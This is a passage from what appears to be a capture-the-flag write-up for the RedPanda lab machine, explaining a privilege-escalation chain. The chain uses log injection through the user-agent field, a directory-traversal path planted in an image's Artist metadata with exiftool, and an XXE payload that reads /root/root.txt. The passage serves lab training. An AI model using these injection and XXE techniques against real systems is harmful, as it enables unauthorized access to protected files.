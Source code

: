 ```
/opt/panda_search/src/main/resources/static/../../../../../../home/woodenk/myphoto.jpg
```

So the desired uri is **/../../../../../../home/woodenk/myphoto.jpg**

> I always have to take a step back and check my work with directory traversals, I test it by doing it on a known folder 2 levels deep. idk why I have a mental blockage about this but I always need to check it...
>
> ```
> ls /home/kali/../../ 
> ```
>
> Which shows the typical dirs /bin /boot /dev /etc /home ... 

By examining App.java, it looks like we can insert this false uri by including extra || characters in the user-agent part of any request to redpanda.htb. When the program builds the Map of data from each line of the log file, it simply grabs the fourth element of the line, broken up by ||. There is nothing preventing us from sneaking this into the user-agent field.

The file myphoto.jpg will need to have an artist tag set in the metadata such that LogParser (with source code App.java) unpacks to undo the path "/credits/[artistname]_creds.xml":

```
/credits/../home/woodenk/xxe_creds.xml
```

So the desired artist tag has contents **../home/woodenk/xxe**

I downloaded some random jpg of a red panda, and gave it an Artist tag by using exiftool:

```
exiftool -Artist=../home/woodenk/xxe myphoto.jpg
```

Since we can use the custom uri to point to any xml, we can craft and control the whole xml, thus making it so we can use any XXE attack (not just an XInclude). We have read-access to the original xmls, so I'll copy the damian_creds.xml and use that as a base. This is how my xxe_creds.xml ended up:

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE credits [
  <!ENTITY xxe SYSTEM "file:///root/root.txt">
]>
<credits>
  &xxe;
</credits>
```

Now, as if that plan wasn't complicated enough, there is the cleanup.sh script to work around. I remembered checking it after I was watching pspy. Here are the contents:

```bash
woodenk@redpanda:~$ less /opt/cleanup.sh
#!/bin/bash
/usr/bin/find /tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.jpg" -exec rm -rf {} \;
```

